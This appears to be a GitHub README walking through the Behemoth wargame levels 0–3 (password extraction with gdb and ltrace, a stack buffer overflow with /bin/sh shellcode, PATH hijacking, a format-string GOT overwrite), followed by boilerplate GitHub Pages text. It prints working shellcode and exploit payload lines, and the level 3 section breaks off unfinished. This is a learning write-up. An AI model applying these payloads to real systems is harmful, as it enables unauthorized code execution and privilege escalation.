

## Behemoth0

This one is quite simple. I will show a several methods to get the code:
### using _gdb_
1) Fire up gdb
2) Disassemble main
3) Find compare command and check the value being compared to our pass
```
behemoth0@behemoth:/behemoth$ gdb behemoth0 
GNU gdb (Debian 7.12-6) 7.12.0.20161007-git
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from behemoth0...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x080485b1 <+0>:	push   %ebp
   0x080485b2 <+1>:	mov    %esp,%ebp
   0x080485b4 <+3>:	push   %ebx
   0x080485b5 <+4>:	sub    $0x5c,%esp
   0x080485b8 <+7>:	movl   $0x475e4b4f,-0x1c(%ebp)
   0x080485bf <+14>:	movl   $0x45425953,-0x18(%ebp)
   0x080485c6 <+21>:	movl   $0x595e58,-0x14(%ebp)
   0x080485cd <+28>:	movl   $0x8048700,-0x8(%ebp)
   0x080485d4 <+35>:	movl   $0x8048718,-0xc(%ebp)
   0x080485db <+42>:	movl   $0x804872d,-0x10(%ebp)
   0x080485e2 <+49>:	push   $0x8048741
   0x080485e7 <+54>:	call   0x8048400 <printf@plt>             ;prints 'password: '. Can be checked with x/s 0x8048741,
                                                                 which is the address of the string being pushed to printf
   0x080485ec <+59>:	add    $0x4,%esp
   0x080485ef <+62>:	lea    -0x5d(%ebp),%eax                   ;our input will be storned in -0x5d(%ebp)
   0x080485f2 <+65>:	push   %eax
   0x080485f3 <+66>:	push   $0x804874c
   0x080485f8 <+71>:	call   0x8048470 <__isoc99_scanf@plt>     ;receives our input
   0x080485fd <+76>:	add    $0x8,%esp
   0x08048600 <+79>:	lea    -0x1c(%ebp),%eax
   0x08048603 <+82>:	push   %eax
   0x08048604 <+83>:	call   0x8048450 <strlen@plt>
   0x08048609 <+88>:	add    $0x4,%esp
   0x0804860c <+91>:	push   %eax
   0x0804860d <+92>:	lea    -0x1c(%ebp),%eax
   0x08048610 <+95>:	push   %eax
   0x08048611 <+96>:	call   0x804858b <memfrob>
---Type <return> to continue, or q <return> to quit---
   0x08048616 <+101>:	add    $0x8,%esp
   0x08048619 <+104>:	lea    -0x1c(%ebp),%eax                   ;the real password to be compared, we want to print $eax value
                                                                 here
   0x0804861c <+107>:	push   %eax
   0x0804861d <+108>:	lea    -0x5d(%ebp),%eax                   ;our input
   0x08048620 <+111>:	push   %eax
   0x08048621 <+112>:	call   0x80483f0 <strcmp@plt>
   0x08048626 <+117>:	add    $0x8,%esp
   0x08048629 <+120>:	test   %eax,%eax
   0x0804862b <+122>:	jne    0x804865f <main+174>
   0x0804862d <+124>:	push   $0x8048751
   0x08048632 <+129>:	call   0x8048420 <puts@plt>
   0x08048637 <+134>:	add    $0x4,%esp
   0x0804863a <+137>:	call   0x8048410 <geteuid@plt>
   0x0804863f <+142>:	mov    %eax,%ebx
   0x08048641 <+144>:	call   0x8048410 <geteuid@plt>
   0x08048646 <+149>:	push   %ebx
   0x08048647 <+150>:	push   %eax
   0x08048648 <+151>:	call   0x8048440 <setreuid@plt>
   0x0804864d <+156>:	add    $0x8,%esp
   0x08048650 <+159>:	push   $0x8048762
   0x08048655 <+164>:	call   0x8048430 <system@plt>
   0x0804865a <+169>:	add    $0x4,%esp
   0x0804865d <+172>:	jmp    0x804866c <main+187>
   0x0804865f <+174>:	push   $0x804876a
   0x08048664 <+179>:	call   0x8048420 <puts@plt>
   0x08048669 <+184>:	add    $0x4,%esp
   0x0804866c <+187>:	mov    $0x0,%eax
---Type <return> to continue, or q <return> to quit---
   0x08048671 <+192>:	mov    -0x4(%ebp),%ebx
   0x08048674 <+195>:	leave  
   0x08048675 <+196>:	ret    
End of assembler dump.
```
let's break at x08048619:
```(gdb) b *0x08048619 ```
step to the next command so eax will be loaded with the real pass:
```
(gdb) ni
```
okay now eax should contain the string:
```
(gdb) x/s $eax
0xbffff69c:	"eatmyshorts"
```
wallah.

### next method - using ltrace
ltrace and strace are very useful tools for analysing function calls. ltrace traces all internal function that were called
during the run of our program:
```
behemoth0@behemoth:/behemoth$ ltrace ./behemoth0 
__libc_start_main(0x80485b1, 1, 0xbffff774, 0x8048680 <unfinished ...>
printf("Password: ")                                                     = 10
__isoc99_scanf(0x804874c, 0xbffff67b, 0xb7fc8000, 13Password: NOTTHEPASS
)                    = 1
strlen("OK^GSYBEX^Y")                                                    = 11
strcmp("NOTTHEPASS", "eatmyshorts")                                      = -1
puts("Access denied.."Access denied..
)                                                  = 16
+++ exited (status 0) +++
```
As we can see, strcmp was called and compared our value 'NOTTHEPASS' with 'eatmyshorts'. Wallah.

### sometimes, it even possible to use 'strings' in order to print all prinitable charaters in our program. here it won't be useful:
```
behemoth0@behemoth:/behemoth$ strings behemoth0
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
memfrob
__isoc99_scanf
puts
setreuid
printf
strlen
system
geteuid
strcmp
__libc_start_main
__gmon_start__
GLIBC_2.7
GLIBC_2.0
PTRh
OK^G
SYBE
u2hQ
UWVS
t$,U
[^_]
unixisbetterthanwindows
followthewhiterabbit
pacmanishighoncrack
Password: 
%64s
Access granted..
/bin/sh
Access denied..
;*2$"
GCC: (Debian 6.3.0-18+deb9u1) 6.3.0 20170516
crtstuff.c
__JCR_LIST__
deregister_tm_clones
__do_global_dtors_aux
completed.6587
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
behemoth0.c
__FRAME_END__
__JCR_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
strcmp@@GLIBC_2.0
__x86.get_pc_thunk.bx
printf@@GLIBC_2.0
_edata
geteuid@@GLIBC_2.0
__data_start
puts@@GLIBC_2.0
system@@GLIBC_2.0
__gmon_start__
__dso_handle
_IO_stdin_used
setreuid@@GLIBC_2.0
strlen@@GLIBC_2.0
__libc_start_main@@GLIBC_2.0
__libc_csu_init
_fp_hw
__bss_start
main
__isoc99_scanf@@GLIBC_2.7
memfrob
__TMC_END__
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rel.dyn
.rel.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.jcr
.dynamic
.got.plt
.data
.bss
.comment
```
'eatmyshorts' does appear, but without analysing the program itself, it will be a bit tedious job. but still possible.

There are planty of another ways, but we will finish here. Ahead to the next one:
```
behemoth0@behemoth:/behemoth$ ./behemoth0 eatmyshorts
Password: eatmyshorts
Access granted..
$ cat /etc/behemoth_pass/behemoth1
...
```
## Behemoth1

Here we exploit a basic bufferoverflow. In sum, we want to overwrite EIP's address, so when return command is executed, we land in our shellcode and get the shell.
Looking at the code:
```
   0x0804844b <+0>:	push   %ebp
   0x0804844c <+1>:	mov    %esp,%ebp
   0x0804844e <+3>:	sub    $0x44,%esp
   0x08048451 <+6>:	push   $0x8048500
   0x08048456 <+11>:	call   0x8048300 <printf@plt>
   0x0804845b <+16>:	add    $0x4,%esp
   0x0804845e <+19>:	lea    -0x43(%ebp),%eax
   0x08048461 <+22>:	push   %eax
   0x08048462 <+23>:	call   0x8048310 <gets@plt>
   0x08048467 <+28>:	add    $0x4,%esp
   0x0804846a <+31>:	push   $0x804850c
   0x0804846f <+36>:	call   0x8048320 <puts@plt>
   0x08048474 <+41>:	add    $0x4,%esp
   0x08048477 <+44>:	mov    $0x0,%eax
   0x0804847c <+49>:	leave  
   0x0804847d <+50>:	ret 
   
```
We can see that we have a very simple program that get's our input and prints it. It uses a very old and insecure function 'gets'. Reading it's manual (man gets) will let us know that nobody should EVER use this functoin, as it's insecure.
Anyway, we want to know how much we have to go into the stack until we overwrite the return address. We can use Kali's pattern create for this:
```
root@kali:~# msf-pattern_create -l 150
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```
now we want to put this input into our program being executed in gdb:
```
(gdb) r
Starting program: /behemoth/behemoth1 
Password: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
Authentication failure.
Sorry.

Program received signal SIGSEGV, Segmentation fault.
0x34634133 in ?? ()
```
Now we use pattern_offset to know the input's length:
```
root@kali:~# msf-pattern_offset -q 0x34634133
[*] Exact match at offset 71
```
Okay, the length of the payload should be 71 + 4 bytes for the address we want to jump into. Now, let's craft our payload. We want to use NOP's slide, because usually the memory is mapped slightly different, so we can guarantee that we will land somewhere in our payload. Disclaimer: I won't put my shellcode inside the input itself, because for some reason, my shellcode overwrites itself / never lands in the correct address. Therefore, there is a better technique to do this: put the shellcode inside an environment variable. This way, we are not limited by the size of the input, thus increasing our chance to land into our shellcode. So in sum up:
1) we will craft a shellcode with a lot's of NOP's in a special environmental variable. 
2) get the address of the environmental variable
3) send an input of 71 chars + the address of the environ
4) we should get our shell

Using shell-storm, we get a basic shell in a size of 25 bytes: http://shell-storm.org/shellcode/files/shellcode-585.php
Now we set our environ;
```
behemoth1@behemoth:/tmp/intersys$ export EGG=$(python -c "print('\x90'*1000+'\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+\x90'*1000)")
behemoth1@behemoth:/tmp/intersys$ $EGG
-bash: �����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������
             [1�1�1Ұ
                    �����/bin/sh: File name too long
```
Great. I tried to write a .c program printing the address of EGG, but it seems that the address is not aligned. We can fix that by using a special scripts (can find them on the interwebz), but I didn't do that here, so we are basically going to find EGG'S address by trial and error. First, we want to know where gdb load's the environ (gdb will usually load it in a different address, but not that far from the actual one):
```

(gdb) b main
Breakpoint 1 at 0x8048451
(gdb) r
Starting program: /behemoth/behemoth1

Breakpoint 1, 0x08048451 in main ()
(gdb) x/s *((char**)environ)
0xffffd48d:	"LC_ALL=en_US.UTF-8"
(gdb) x/s *((char**)environ+0)
0xffffd48d:	"LC_ALL=en_US.UTF-8"
(gdb) x/s *((char**)environ+1)
0xffffd4a0:	"LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...
(gdb) x/s *((char**)environ+2)
0xffffda5c:	"SSH_CONNECTION=132.68.40.2 55032 192.168.101.70 22"
(gdb) x/s *((char**)environ+3)
0xffffda8f:	"EGG=", '\220' <repeats 196 times>...
(gdb) x/s *((char**)environ+3)
0xffffda8f:	"EGG=", '\220' <repeats 196 times>...
(gdb) quit
A debugging session is active.

	Inferior 1 [process 29292] will be killed.

Quit anyway? (y or n) y

```
Okay, it's loaded in '0xffffda8f'. Now we want to craft our input:
```
behemoth1@behemoth:/behemoth$ python -c "print('a'*71+'\x8f\xda\xff\xff')" | ./behemoth1
Password: Authentication failure.
Sorry.
Segmentation fault
```
seg fault means that we missed our EGG's address, thus trying to run an illigal instruction.  Let's try to go a bit up in our address:
```
behemoth1@behemoth:/behemoth$ python -c "print('a'*71+'\x7f\xda\xff\xff')" | ./behemoth1
Password: Authentication failure.
Sorry.
Segmentation fault
```
Not there yet. 
```
behemoth1@behemoth:/behemoth$ (python -c "print('a'*71+'\x6f\xda\xff\xff')") | ./behemoth1
Password: Authentication failure.
Sorry.
```
Great, we hit it. It seems that the shell is closed immediately. We will use cat in ordered to keep it alive:
```
behemoth1@behemoth:/behemoth$ (python -c "print('a'*71+'\x6f\xda\xff\xff')";cat) | ./behemoth1
Password: Authentication failure.
Sorry.
whoami
behemoth2
cat /etc/behemoth_pass/behemoth1
cat: /etc/behemoth_pass/behemoth1: Permission denied
cat /etc/behemoth_pass/behemoth2                         
*********
```
Okay, so we have the password. Usually, we don't need to do this so manually, there are scripts that align gdb's address. Moreover, we can try to jump in the middle of our NOP's slide in our environmental varible. 

## Behemoth2
running behemoth2 with radare2 or gdb or objdump, can give us some clues. The program tries to create a file with the name of the pid of the parent process. After that, it sleeps for a very long time and then tries to read a file. We obviously want to exploit the program before the sleep, because the time to sleep is a constant value and we cannot change it without patching the program.
Okay, let's see how the program works:
```
behemoth2@behemoth:/behemoth$ ltrace ./behemoth2
__libc_start_main(0x804856b, 1, 0xffffd774, 0x8048660 <unfinished ...>
getpid()                                                                                                                   = 19652
sprintf("touch 19652", "touch %d", 19652)                                                                                  = 11
__lxstat(3, "19652", 0xffffd640)                                                                                           = -1
unlink("19652")                                                                                                            = -1
geteuid()                                                                                                                  = 13002
geteuid()                                                                                                                  = 13002
setreuid(13002, 13002)                                                                                                     = 0
system("touch 19652"touch: cannot touch '19652': Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                     = 256
sleep(2000^C <no return ...>
--- SIGINT (Interrupt) ---
+++ killed by SIGINT +++

```
We can see the the process id is 19652, and that file will be created with the touch command. lstat return -1 because there is no such a file (NOTICE: it's a relative path, not absolute... hmm). Unlink fails as well (return value is -1). 
Now, the vulnerability in the following file is the relative path of touch. Because we use an relative value and there is no path to touch in the $PATH environmental variable, we can abuse the program. Usually, if absolute path is not mentioned, the program will try to find it in $PATH, but here we don't have it as well:
```
behemoth2@behemoth:/behemoth$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

So we want to insert a new path to **our** controlled touch version of touch, that will spawn a shell for us. That way, when behemoth will look in $PATH the path to touch, it will jump into our code -> will print the password:
```
behemoth2@behemoth:/tmp/ii$ mkdir temp/ii
behemoth2@behemoth:/tmp/ii$ echo "cat /etc/behemoth_pass/behemoth3" > /tmp/ii/touch
behemoth2@behemoth:/tmp/ii$ chmod 777 touch (let everyone permission to run this file, who cares?)
behemoth2@behemoth:/tmp/ii$ cd /behemoth
behemoth2@behemoth:/tmp/ii$ export PATH=/tmp/ii:$PATH (now we add our path)
behemoth2@behemoth:/behemoth$ echo $PATH
/tmp/ii:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
behemoth2@behemoth:/behemoth$ ./behemoth2
*******
quit
^C
```

## Behemoth3

Okay, after checking the file contents with `file behemoth3` and `r2 behemoth3; -i` we get the usual info. No aslr and nx bit. Let's dissas our file:

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804847b <+0>:	push   ebp
   0x0804847c <+1>:	mov    ebp,esp
   0x0804847e <+3>:	sub    esp,0xc8
   0x08048484 <+9>:	push   0x8048560
   0x08048489 <+14>:	call   0x8048330 <printf@plt>
   0x0804848e <+19>:	add    esp,0x4
   0x08048491 <+22>:	mov    eax,ds:0x80497c0
   0x08048496 <+27>:	push   eax
   0x08048497 <+28>:	push   0xc8
   0x0804849c <+33>:	lea    eax,[ebp-0xc8]
   0x080484a2 <+39>:	push   eax
   0x080484a3 <+40>:	call   0x8048340 <fgets@plt>
   0x080484a8 <+45>:	add    esp,0xc
   0x080484ab <+48>:	push   0x8048574
   0x080484b0 <+53>:	call   0x8048330 <printf@plt>
   0x080484b5 <+58>:	add    esp,0x4
   0x080484b8 <+61>:	lea    eax,[ebp-0xc8]
   0x080484be <+67>:	push   eax
   0x080484bf <+68>:	call   0x8048330 <printf@plt>
   0x080484c4 <+73>:	add    esp,0x4
   0x080484c7 <+76>:	push   0x804857e
   0x080484cc <+81>:	call   0x8048350 <puts@plt>
   0x080484d1 <+86>:	add    esp,0x4
   0x080484d4 <+89>:	mov    eax,0x0
   0x080484d9 <+94>:	leave  
   0x080484da <+95>:	ret    
End of assembler dump.
```
Okay, we can see that we have many printing functions and one that receives input (fgets). Let's see if we can abuse fgets, we open radare2 and analyse the main function with the following commands:
```
radare2 behemoth3
s main
aa
VV
```
Then we should have the following graph:



we see that the arguments that are pushed into fgets are '0' which is stdin file descriptor, a value of '200' which is the buffer size and a pointer to the string. So nothing here, let's see if we can abuse printf function - and yes, we can see with radare the the format doesn't contain and format string (%x/%p/%d etc'), it means that we can pop values from the stack, because the program doesn't know where to get them, as they are not mentioned. **now, I advise you to read about format string vulnerability in order to complete this challange. It to me a couple of days, but I think it's totally worth it.** a few resources:
_http://phrack.org/issues/59/7.html_
_http://phrack.org/issues/67/9.html_
_https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf_


Now, it's going to be a tedious work as I'm doing that manually. First, I want to find an address that is going to be executed, so I can overwrite it. Then, I'm going to set a shellcode inside an environ, as we did on earlier levels. 

1. Finding an address: We can use the got which is the global offset table, where all the function are listed which are loaded into our program. Let's see if we can write into this addresses:
```
behemoth3@behemoth:/behemoth$ objdump -h behemoth3 | grep -A1 ' .\got'
 22 .got          00000004  08049794  08049794  00000794  2**2
                  CONTENTS, ALLOC, LOAD, DATA
 23 .got.plt      0000001c  08049798  08049798  00000798  2**2
                  CONTENTS, ALLOC, LOAD, DATA
```
Great, we don't see READONLY in .got, hence its writable. Now let's check our got addresses:

```
behemoth3@behemoth:/behemoth$ objdump -R behemoth3

behemoth3:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049794 R_386_GLOB_DAT    __gmon_start__
080497c0 R_386_COPY        stdin@@GLIBC_2.0
080497a4 R_386_JUMP_SLOT   printf@GLIBC_2.0
080497a8 R_386_JUMP_SLOT   fgets@GLIBC_2.0
080497ac R_386_JUMP_SLOT   puts@GLIBC_2.0
080497b0 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
```
We can use puts address as it's executed after printf. We can also use the function destrctors:
```
behemoth3@behemoth:/behemoth$ nm behemoth3 | grep 'DTOR'
```
Unfortunately we don't have anything, but sometimes it can be useful.
Okay, to the dirty job -> we are going to write byte after byte into our address, which is 0x080497ac. You can see that I have adjusted it many times. I put the log in the root directory, as it contains many addresses. Link:
[Link](https://github.com/int3rsys/behemoth-solutions/blob/master/behemoth3.log)
**I highly advise you to read the links above in order to successfully write the data in your machine**

So the the input was:
```
python -c "print('AAAA\xac\x97\x04\x08AAAA\xad\x97\x04\x08AAAA\xae\x97\x04\x08AAAA\xaf\x97\x04\x08%140x%n%235x%n%109x%n%260x%n')"
```

Now let's plant our shellcode:
```

```

You can use the [editor on GitHub](https://github.com/int3rsys/behemoth-solutions/edit/master/README.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and 
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/int3rsys/behemoth-solutions/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
